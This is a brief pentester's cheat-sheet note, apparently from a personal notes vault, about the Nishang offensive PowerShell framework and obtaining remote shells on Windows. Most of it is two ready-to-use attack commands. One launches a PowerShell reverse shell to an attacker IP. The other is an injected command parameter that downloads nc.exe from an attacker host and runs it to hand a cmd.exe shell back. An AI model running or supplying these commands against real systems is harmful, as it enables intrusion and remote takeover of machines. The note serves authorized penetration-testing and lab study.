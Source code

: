 ```yaml
---
tags:
  - Post-Exploitation
  - OperatingSystems
  - Windows
  - Tooling
  - Exploitation
  - ObtainingRemoteShells
---
```

Nishang is a framework collection of Offensive PowerShell implants and scripts. It includes many utilities that can be useful to any pentester.

# Remote Shells

[nishang/Shells/Invoke-PowerShellTcp.ps1 at master · samratashok/nishang · GitHub](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.5 -Port 443
```

```
cmd=dir|powershell -c "iwr -uri http://192.168.49.57:8000/nc.exe -outfile %temp%\\n.exe"; %temp%\\nc.exe -e cmd.exe 192.168.49.57 80
```


